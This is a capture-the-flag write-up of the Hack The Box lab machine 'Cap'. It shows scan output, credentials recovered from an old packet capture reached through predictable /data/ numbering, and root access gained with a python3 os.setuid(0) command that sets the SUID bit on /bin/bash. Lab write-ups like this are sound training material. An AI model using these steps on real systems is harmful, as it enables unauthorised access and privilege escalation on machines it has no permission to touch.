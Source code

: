 

# Enumeration
Example of what is seen on the site. Appears to be nestat, IP Config, and some form of PCAP analysis pages via the menu. We also see that we're signed in as 'Nathan'.
![[Pasted image 20210606202210.png]]
![[Pasted image 20210606202126.png]]
![[Pasted image 20210605154704.png]]
## Nmap Scan:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 15:44 MDT
Nmap scan report for cap.htb (10.129.88.224)
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

---clipped---
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.22 seconds
```
## WappAlyzer
![[Pasted image 20210605154447.png]]
## GoBuster 
```bash
└─$ cat gobuster.txt~ 
/data (Status: 302)
/ip (Status: 200)
/netstat (Status: 200)
/capture (Status: 302)
```
## Nikto
```bash
└─# nikto -host 10.129.84.196            
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.84.196
+ Target Hostname:    10.129.84.196
+ Target Port:        80
+ Start Time:         2021-06-06 20:17:02 (GMT-6)
---------------------------------------------------------------------------
+ Server: gunicorn
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: HEAD, OPTIONS, GET 
+ 7916 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2021-06-06 20:29:41 (GMT-6) (759 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

- No Public Vulnerabilities published for VSFTP 3.0.3
- GoBuster identified a few paths, most of these readily available just by navigating around the site (no hidden admin or anything like that).

Every time I generate a new pcap, I notice that /data/# increments by 1.
![[Pasted image 20210614213207.png]]
I do some testing by sending it pings, attempting to connect to ftp and ssh, etc and inspect the pCAPs hoping to glean some relevant info. Since I see this incrementation I check to see if maybe I can investigate historical PCAPs, e.g. maybe some administrative tasks taking place before I even connected. We start at 0 and within, sure enough, is a clear text connection established to the FTP server including password:
![[Pasted image 20210614212825.png]]
![[Pasted image 20210614212953.png]]

Connect to SSH with the above credentials and grab the user flag.

### Privelege Escalation
```bash
nathan@cap:/$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/1997/bin/mount
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
```

/bin/bash is what I want to run as root, looks like someone set the SUID bit on it already:
```bash
nathan@cap:~$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /usr/bin/bash
```

I could've skipped to running /bin/bash -p, but reset the machine to make sure this was the intended escalation path.

I know a way to set the SUID bit via python (thanks to the cyber mentor and tiberius' linux privelege escalation courses) and thankfully python3 is on this box
```bash
nathan@cap:~$ python3 --version
Python 3.8.5
nathan@cap:~$ 
```

Use python3 to set the SUID bit on /bin/bash
```bash
python3 -c 'import os; os.setuid(0);  os.system("chmod +s /bin/bash")'
```

Execute Bin/Bash elevated:
```bash
nathan@cap:~$ /bin/bash -p
bash-5.0# whoami
root
```

CD'd up to /root and cat'd out the root.txt